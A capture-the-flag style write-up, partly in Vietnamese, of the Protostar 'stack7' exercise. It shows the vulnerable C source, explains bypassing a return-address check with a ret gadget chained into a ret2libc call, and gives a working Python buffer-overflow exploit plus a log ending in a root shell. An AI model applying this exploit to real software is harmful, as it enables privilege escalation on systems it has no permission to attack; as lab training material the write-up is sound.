

# **stack7**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

- Phân tích: Khác với stack6, ở đây return address chỉ cần > 0xb0000000 là bị exit(), trong khi đó libc được load vào chương trình ở địa chỉ 0xb7.... => không thể ret2libc

## Vulnerability
gets()

## Exploit
- Stack 7 có gợi ý sử dụng ret2text.
- .text không có địa chỉ dạng 0xb.........
- Nếu vẫn làm như stack6:

  

- Nếu ghi đè vào return address một địa chỉ ở vùng .text thì ok:

  

- Ta tìm một instruction ở text mà có thể tương tác với $eip. => câu lệnh "ret".

  

- Nếu ta ghi đè return address bằng địa chỉ một câu lệnh ret ở .text:
  - bypass được câu lệnh kiểm tra được return address ``` if((ret & 0xb0000000) == 0xb0000000) ```.
  - Chương trình sẽ tiếp tục thực thi câu lệnh ret mà ở đây ta không bị rằng buộc bởi địa chỉ mà ta muốn nhảy đến nữa.

=> Chỉ cần đẩy lui payload ở stack6 xuống 0x4 bytes, chèn vào giữa một địa chỉ câu lệnh ret, mọi thứ sẽ hoạt động bình thường:

  

- Python script:
``` 
import struct

padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)             
exit_address = struct.pack("I", 0xb7ec60c0)
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)
ret_instruct_address = struct.pack("I", 0x08048544)

print(padding + ret_instruct_address + eip + exit_address + argument)
```
- Test:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script7.py ; cat) | ./stack7
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`췿c
whoami
root
```
# References